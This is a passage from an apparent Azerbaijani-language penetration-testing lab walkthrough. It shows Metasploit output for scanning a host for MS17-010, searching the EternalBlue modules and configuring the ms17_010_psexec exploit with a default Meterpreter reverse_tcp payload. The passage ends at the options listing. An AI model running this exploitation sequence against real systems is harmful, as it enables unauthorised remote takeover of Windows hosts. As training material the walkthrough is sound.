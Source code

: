 ```

RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

İndi, yoxlama nəticələrindən görə bilərik ki, hədəfimiz çox güman ki, EternalBlue-ya qarşı həssasdır. Gəlin indi eksploiti və payload-u quraq, sonra bir cəhd edək.

**Eksploit və Payload-u Seçin, sonra Çatdırın**

**Eksploit və Payload-umuzu Seçin və Konfiqurasiya Edin**
```
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

Bu hal üçün, biz EternalBlue ilə uyğun gələn bir eksploit axtarmaq üçün MSF-nin eksploit modullarını `search` funksiyasından istifadə edərək araşdırdıq. Yuxarıdakı siyahı nəticə idi. Mən bu eksploitin psexec versiyası ilə daha çox uğur qazandığım üçün, əvvəlcə onu sınayacağıq. Gəlin onu seçək və quraşdırmanı davam etdirək.

**Eksploiti və Payload-u Konfiqurasiya Edin**
```
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
```
